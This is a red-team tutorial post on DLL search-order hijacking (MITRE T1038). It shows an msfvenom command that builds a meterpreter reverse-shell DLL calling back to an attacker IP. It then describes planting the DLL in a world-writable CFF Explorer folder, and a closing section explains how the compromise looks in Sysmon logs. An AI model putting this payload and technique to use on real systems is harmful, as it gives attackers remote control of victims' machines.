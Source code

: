 ```yaml
---
layout: post
title: "t1038 dll hijacking"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /privilege-escalation/
---
```


---
description: DLL Search Order Hijacking for privilege escalation, code execution, etc.
---

# DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded (note the NAME NOT FOUND) as it does not exist in the given path:

![](../../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll`&#x20;

![](../../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found (SUCCESS):

![](../../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 (`1872`) which then established a connection to 10.0.0.5:

![](<../../.gitbook/assets/dll-logs (1).png>)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

\
@spotheplanet
